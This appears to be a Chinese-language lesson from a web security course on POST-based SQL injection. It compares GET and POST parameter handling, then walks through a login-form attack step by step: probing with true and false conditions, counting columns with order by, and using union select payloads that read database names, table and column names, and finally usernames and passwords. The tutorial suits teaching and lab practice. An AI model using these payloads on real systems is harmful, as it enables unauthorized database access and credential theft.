网络安全入门到精通：P6：POST注入方式 🎯






在本节课中，我们将要学习SQL注入的另一种常见方式——POST注入。上一节我们介绍了GET注入的原理与实践，本节中我们来看看POST注入与GET注入有何不同，并掌握其利用方法。

### 概述
POST注入与GET注入的核心攻击原理相同，都是通过构造恶意SQL语句来操纵数据库。主要区别在于数据提交方式：GET请求的参数会显示在URL中，而POST请求的参数则包含在请求体中，不会直接暴露在地址栏。这使得POST注入在某些场景下需要不同的处理方式。

### GET与POST传参的区别
以下是GET与POST传参的主要区别点：
1.  **参数可见性**：GET请求的参数会显示在浏览器地址栏（URL）中；POST请求的参数在请求体内，地址栏不可见。
2.  **URL编码**：GET请求中，用户输入的内容会被自动进行一次URL编码。例如，注释符 `--+` 会被编码为 `--%2B`，服务器端解码后变为 `-- `（空格），从而生效。POST请求通常不会自动进行URL编码和解码。









### POST注入实战演示
我们将在一个已知存在SQL注入漏洞的POST请求登录框中进行演示。








#### 第一步：判断注入点
在用户名输入框中尝试输入 `admin' and 1=1 -- `（注意是 `--` 加一个空格，而非 `--+`）。
*   如果页面正常显示，则可能存在注入点。
*   接着输入 `admin' and 1=2 -- `，若页面显示异常（如登录失败、无数据），则基本确认存在SQL注入漏洞。




**核心概念**：通过构造 `and 1=1`（恒真）和 `and 1=2`（恒假）的SQL片段，观察页面返回差异来判断是否存在注入点。









#### 第二步：判断字段数
使用 `order by` 子句来判断当前查询语句的字段数量。
以下是判断字段数的二分法技巧：
1.  首先尝试一个较大的数字，例如 `order by 10`。
2.  如果报错，说明字段数小于10，则尝试 `order by 5`。
3.  如果 `order by 5` 正常，而 `order by 8` 报错，则说明字段数在5到8之间，可继续尝试 `order by 6`、`order by 7` 来精确判断。
此方法比从1开始逐一尝试更为高效。


#### 第三步：确定回显位
在确认字段数（例如为2）后，使用联合查询 `union select` 来确定哪些字段的内容会在页面上显示出来。
```sql
' and 1=2 union select 1,2 -- 
```
提交后，观察页面中原本显示数据的位置是否被数字1或2替代。这些位置即为“回显位”，后续可以将我们想查询的信息放在这些位置上。







#### 第四步：获取数据库信息
利用回显位，我们可以逐步获取数据库的敏感信息。
1.  **查询当前数据库名**：
    ```sql
    ' and 1=2 union select database(),2 -- 
    ```
    回显位将显示当前使用的数据库名称。
2.  **查询数据库用户**：
    ```sql
    ' and 1=2 union select user(),2 -- 
    ```
    回显位将显示当前数据库用户（如 `root@localhost`）。
3.  **查询表名**：
    ```sql
    ' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() -- 
    ```
    回显位将列出当前数据库中的所有表名（例如 `emails,users,referers`）。
4.  **查询列名**：
    假设我们对 `users` 表感兴趣，查询其列名：
    ```sql
    ' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' -- 
    ```
    回显位将列出 `users` 表的所有列名（例如 `id,username,password`）。
5.  **查询数据**：
    最后，提取目标数据：
    ```sql
    ' and 1=2 union select group_concat(username),group_concat(password) from users -- 
    ```
    回显位将分别显示所有用户名和密码的拼接结果。






### 总结
本节课中我们一起学习了POST注入方式。POST注入与GET注入的SQL攻击流程完全一致，都遵循 **判断注入点 -> 判断字段数 -> 确定回显位 -> 获取数据库信息** 的步骤。关键区别在于POST请求的数据不经过URL编码，因此构造注入语句时，注释符应直接使用 `-- `（空格），而非GET注入中常用的 `--+`。通过本课的学习，希望大家能够理解并掌握这两种基本的SQL注入方法。